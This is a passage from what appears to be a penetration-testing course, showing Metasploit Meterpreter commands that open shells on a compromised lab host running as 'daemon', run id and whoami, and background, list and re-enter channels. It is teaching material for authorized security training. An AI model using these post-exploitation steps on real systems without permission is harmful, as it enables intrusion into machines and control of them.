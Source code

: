 > Listing 36 - Display compatible payloads of the exploit module

The commands provide us with information about the target computer, operating system, and the current user.

As we've already learned, Metasploit uses sessions to manage access to different machines. When Metasploit interacts with a system within a session, it uses a concept named *channels*. Let's start an interactive shell by entering **shell**, execute a command in the context of a channel, and background the channel the shell runs in. To background a channel, we can use C+z.

```
meterpreter > shell
Process 194 created.
Channel 1 created.
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
^Z
Background channel 1? [y/N]  y

meterpreter >
```

> Listing 37 - Start a channel and background it

Next, we'll start a second interactive shell, execute a command, and background the channel.

```
meterpreter > shell
Process 196 created.
Channel 2 created.
whoami
daemon
^Z
Background channel 2? [y/N]  y
```

> Listing 38 - Start a second channel and background it

Now, let's list all active channels and interact with channel 1 again. To list all active channels, we can enter **channel -l** and to interact with one, we can use **channel -i** and the channel ID as argument.

```
meterpreter > channel -l

    Id  Class  Type
    --  -----  ----
    1   3      stdapi_process
    2   3      stdapi_process

meterpreter > channel -i 1
Interacting with channel 1...

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
